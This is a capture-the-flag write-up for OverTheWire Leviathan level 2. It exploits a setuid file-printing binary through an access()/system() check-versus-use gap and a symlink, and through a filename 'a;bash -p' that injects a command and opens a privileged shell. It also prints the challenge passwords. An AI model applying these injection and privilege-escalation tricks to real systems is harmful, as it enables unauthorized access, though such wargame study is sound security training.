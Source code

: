 ### Leviathan level 2

There is a set-user-ID executable named 'printfile' in home directory. Running it I get: 

``` bash
*** File Printer ***
Usage: ./printfile filename
```

- running ltrace ./printfile /etc/leviathan_pass/leviathan3 I get:

```bash
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)          = -1
puts("You cant have that file..."You cant have that file...
)                   = 27
+++ exited (status 1) +++
```

- running ltrace ./printfile /etc/leviathan_pass/leviathan2 I get:

```
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access("/etc/leviathan_pass/leviathan2", 4)          = 0
snprintf("/bin/cat /etc/leviathan_pass/lev"..., 511, "/bin/cat %s", "/etc/leviathan_pass/leviathan2") = 39
geteuid()                                            = 12002
geteuid()                                            = 12002
setreuid(12002, 12002)                               = 0
system("/bin/cat /etc/leviathan_pass/lev"...NsN1HwFoyN
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                               = 0
+++ exited (status 0) +++ "
```

So I see that the setuid printfile executable uses access() function to check if it has read permission to the given file (NOTE: access uses real uid when checking for permissions). If access() is successfule it created the str "/bin/cat {filename}" with the specified filename and calls system() on it. 

After some searching I found something called Time-of-Check to Time-of-Use vulnerability that can be exploited here. The executable uses access() to check permissions and then uses system() to cat the contents of the file. But between the two calls the file could have potentially been changed. I will try to use that fact.

#### Solution
- I create a temporary directory using 
`mkdir /tmp/leviathan2 && cd /tmp/leviathan2` . In here I create 3 files named a, b and "a b".  

- I create a symbolic link from b to '/etc/leviathan_pass/leviathan3' using `ln -sf /etc/leviathan_pass/leviathan3 b`.

- I run `/home/leviathan2/printfile "a b"` and I get the contents of /etc/leviathan_pass/leviathan3

That is because access() checks for read permissions on "a b" file which I created, but ```system(/bin/cat a b)``` will cat the contents of a and then the contents of b file, which is a symbolic link to the desired passwd. And because this is a set-uid binary we can get the desired passswd. 

#### Alternative solution

After implementing that I found a shorter and a bit smarter solution.

- Like before I can create a file named "a;bash -p" and a file named "a".
- After running `printfile "a;bash -p"` I get a new bash, and running `whoami` I see that I am now `leviathan3` and I can just cat the contents of the password.

This happens because when running `bash -p` prevents the binary from dropping the permissions. From the docs :

```bash
-p

Turn on privileged mode. In this mode, the $ENV and $BASH_ENV files are not processed, shell functions are not inherited from the environment, and the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored. If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, these actions are taken and the effective user id is set to the real user id. If the -p option is supplied at startup, the effective user id is not reset. Turning this option off causes the effective user and group ids to be set to the real user and group ids. 
```

passwd for level 3: f0n8h2iWLP
